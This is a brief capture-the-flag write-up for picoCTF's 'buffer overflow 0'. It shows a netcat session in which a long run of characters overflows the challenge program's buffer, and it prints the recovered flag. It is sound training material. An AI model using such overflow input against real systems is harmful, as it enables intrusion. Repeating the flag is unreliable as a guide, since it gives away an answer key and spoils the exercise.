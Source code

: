 # buffer overflow 0

## Challenge Description

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Connect using:
nc saturn.picoctf.net 59694

## Solution

Guided by the name of the challenge my first instinct was to enter data repeatedly to cause buffer overflow
```bash
root@MeenakshiSangeeth:~# nc saturn.picoctf.net 59694
Input: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
Eureka it worked!!
Thus the flag for this challenge is picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

